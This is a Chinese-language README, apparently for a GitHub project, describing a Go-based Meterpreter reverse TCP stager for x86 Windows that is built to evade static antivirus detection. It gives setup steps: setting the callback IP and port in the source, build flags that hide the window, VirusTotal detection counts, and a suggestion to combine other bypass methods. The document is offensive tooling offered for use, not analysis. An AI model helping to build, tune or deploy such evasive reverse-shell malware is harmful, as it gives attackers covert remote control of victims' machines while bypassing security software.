 # go_meterpreter
Golang实现的x86下的Meterpreter reverse tcp

做静态免杀实验，通过代码修改自[EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT) 这个开源项目。单独实现主要在于减小程序编译后体积。目前编译后的大小在1.2M左右。

## 使用方法

修改go_meterpreter.go中125行代码 s := "http://192.168.121.131:8989" IP和端口修改为自己的地址。然后就可以go build了。
'''
set GOARCH=386
go build -ldflags="-H windowsgui -w"   

'''
注意上面参数中没有-s，因为实际测试，使用这种方式build后的程序免杀效果会好一些。如果直接go build，程序会有窗口，同时大小也在1.6M左右。

由于加入了这部分代码，运行后因为执行多次无用代码，需要等一会才可以看到上线。另外目前会出现连接两次msf的情况，但是只有一个连接会返回shell，目前没找到原因。

## 免杀效果

加入了Bypass AV的代码。

我在刚写好的时候上传到VT，查杀结果位8/62。VT上有超过70个引擎，62个应该是加入BypassAV代码起的作用。

今天最新经过编译查杀结果为20/70。由于现在杀毒都有云查杀，刚写的时候效果好，但是过几天就被被杀。这里具体可以结合一些其他方式来尝试绕过。

VT检测结果地址：[https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection](https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection)

在使用这个的过程中，Windows10中自带的杀毒软件会拦截。会被动态行为发现。这里仅是过静态查杀测试。


